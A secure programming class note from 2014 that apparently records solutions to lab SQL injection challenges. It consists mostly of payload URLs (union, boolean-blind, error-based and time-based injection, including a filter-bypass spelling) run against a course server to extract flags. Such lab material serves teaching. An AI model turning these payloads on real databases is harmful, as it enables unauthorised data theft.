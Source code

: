 ```yaml
---
layout: post
title: 'Secure Programming 2014-12-09'
category: note
slug: secure-programming-20141209
---
```

2014/12/09 Secure Programming Class Note

## SQLi1

- need encode ' '

```
http://tor.atdog.tw:8080/union/news.php?id=1
http://tor.atdog.tw:8080/union/news.php?id=1)union(select 1,(select flag from wtf_flags))%23
```

## SQLi2

```
http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin
http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin' and exists(select 1from information_schema.tables where ord(substr((select table_name from information_schema.tables limit 1), 1, 1))=67)%23
```

- CSRF
- XSS


## SQLi3

- `ooooooooofl4gsss`

```
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select table_name from infoorrmation_schema.tables limit 41,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

- `flag`

```
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select column_name from infoorrmation_schema.columns limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

- `SecProg{why_my_pay1oad_is_s0_Complic4tEd}`

```
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select flag from ooooooooofl4gsss limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

## SQLi4

```
http://tor.atdog.tw:8080/time/track.php?action=1 and (sleep(ascii(substr((select table_name from information_schema.tables limit 41,1),4,1))%25100)) = 1
http://tor.atdog.tw:8080/time/track.php?action=1 and (select if(((select table_name from information_schema.tables limit 41,1)='what_flags'),sleep(10),0))=1
```

